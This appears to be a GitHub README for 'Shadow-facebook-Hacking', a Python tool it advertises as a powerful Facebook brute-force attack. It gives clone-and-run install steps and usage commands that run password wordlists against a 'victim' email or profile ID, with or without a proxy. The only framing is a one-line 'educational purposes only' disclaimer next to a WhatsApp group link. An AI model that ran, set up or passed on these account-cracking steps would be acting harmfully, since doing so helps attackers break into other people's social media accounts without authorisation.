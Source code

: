 # Facebook_hack

###### shadow Powerfull Facebook Bruteforce Attack.
***
### <p align="center">Commands to run tool in ur terminal Termux && Kali Linux
***

 ```bash
Note : Tool is Made of Educational Purposes only.
       (Join Us https://chat.whatsapp.com/INxRXUc8HGcELwRO2nk0gU)
```
## Language is used to Make this tool
- Python
  
## The Tool is for :
- Windows
- Kali Linux
- Android~Termux
- macOs
- any Os has python(2.x, 3.x) with required modules

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/MNK-hub/Shadow-facebook-Hacking
```
```bash
cd Shadow-facebook-Hacking
```
```bash
bash setup
```
```bash
python shadow-facebook_hack.py
```

## usage :-
  - **U can Use Victim email Or Facebook Profile Id**:
  
  - **Brute Force On Facebook Account Without proxy**:
  
  * **Command**: python shadow-facebook_hack.py -t victim@gmail.com -w shadow_hunter.txt
  
  - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python shadow-facebook_hack.py -t victim@gmail.com -w shadow_hunter.txt p 144.217.101.245:3129
    
    - **Get Target Facebook Profile ID**:
  
   
    * **Command**: python shadow-facebook_hack.py -g https://www.facebook.com/profile.php?id=100095056607365
  
